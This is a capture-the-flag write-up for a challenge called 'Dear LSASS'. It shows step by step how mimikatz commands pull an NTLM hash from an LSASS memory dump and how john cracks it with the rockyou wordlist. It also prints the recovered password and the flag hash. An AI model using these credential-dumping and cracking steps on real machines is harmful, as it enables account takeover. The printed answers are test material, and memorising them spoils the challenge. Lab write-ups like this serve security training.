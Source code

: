 # Dear LSASS
#### Mimikatz, johntheripper, brute-force
## Challenge Description:

An IT company hired you to perform an internal takeover of the sales department.
While looking around the office, you noticed that an employee named Oshri left his computer unlocked and unsupervised.
﻿Although an attempt to leave a backdoor failed due to the company's endpoint protection software, you managed to successfully dump the memory of the LSASS process to a USB drive

Your goals<br>
☛ Oshri's station is a Windows 10 20H2 (Build 2009).<br>
☛ Extract the credentials from the memory dump of the LSASS process.<br>
☛ Find Oshri's password.<br>

## Process:

Download the DMP file to a virtual Windows 10 and download mimikatz<br>

Open mimikatz with admin privileges<br>
Use the command 'privilege::debug' and make sure you get appropriate response<br>

Use 'sekurlsa::minidump C:\Users\User\Desktop\mimikatz-master\x64\oshri.DMP' to access the DMP file<br>
<img align="center" src="Images/DearLSASS_01.png"><br>

#### sekurIsa:.Iogonpasswords 

<details> 
        <summary>The NTLM hash is our goal</summary> 
          722b6a1fc17c46ca1b771f6dd502d7a1
    </details><br>

Create a txt file with the NTLM hash in a kali machine<br>
Use the command 'john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt  hash.txt' to brute-force the hash<br>

<img align="center" src="Images/DearLSASS_02.png"><br>
"qweasdqweasd" is the password we were looking for

Convert the password through an MD5 converter and you found the hash

<details> 
        <summary>The Hidden Flag</summary> 
          ca64f5c1d65081a0b2a797844b6557f4
    </details><br>

